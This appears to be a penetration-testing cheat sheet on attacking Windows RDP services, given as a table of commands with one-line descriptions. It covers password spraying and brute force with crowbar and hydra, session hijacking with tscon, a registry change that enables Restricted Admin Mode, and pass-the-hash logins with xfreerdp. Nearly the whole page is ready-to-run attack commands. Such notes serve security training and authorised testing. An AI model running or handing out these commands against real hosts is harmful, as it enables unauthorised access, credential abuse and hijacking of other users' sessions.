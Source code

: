 #RDP #crowbar #rdesktop #xfreerdp #tscon #session-hijacking #password-attacks 


One caveat on password guessing against Windows instances is that you should consider the client's password policy. In many cases, a user account will be locked or disabled after a certain number of failed login attempts. In this case, we can perform a specific password guessing technique called `Password Spraying`. This technique works by attempting a single password for many usernames before trying another password, being careful to avoid account lockout.

## Attacking RDP

| **Command**                                                                                                                                    | **Description**                                                                 |
| ---------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`                                                                           | Password spraying against the RDP service.                                      |
| `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`                                                                                    | Brute-forcing the RDP service.                                                  |
| `rdesktop -u admin -p password123 192.168.2.143`                                                                                               | Connect to the RDP service using `rdesktop` in Linux.                           |
| `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`                                                                                         | Impersonate a user without its password.                                        |
| `net start sessionhijack`                                                                                                                      | Execute the RDP session hijack.                                                 |
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`                                           | Enable "Restricted Admin Mode" on the target Windows host.                      |
| `xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`                                                                     | Use the Pass-The-Hash technique to login on the target host without a password. |
| `nmap -Pn -p3389 192.168.2.143`                                                                                                                | Scan default port                                                               |
| `xfreerdp /v:10.129.86.86 /u:fred /p:example /drive:home,"/home/kali/boxes/" /size:85%`                                                        | Open RDP with shared drive and at 85% screen                                    |
| `hydra -L  /seclists/Usernames/top-usernames-shortlist.txt -P /seclists/Passwords/xato-net-10-million-passwords-1000.txt rdp://10.129.202.136` | Brute forcing username and passowrd                                             |
| `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`                                                                                    | Password spraying against RDP service                                           |
|                                                                                                                                                |                                                                                 |

---

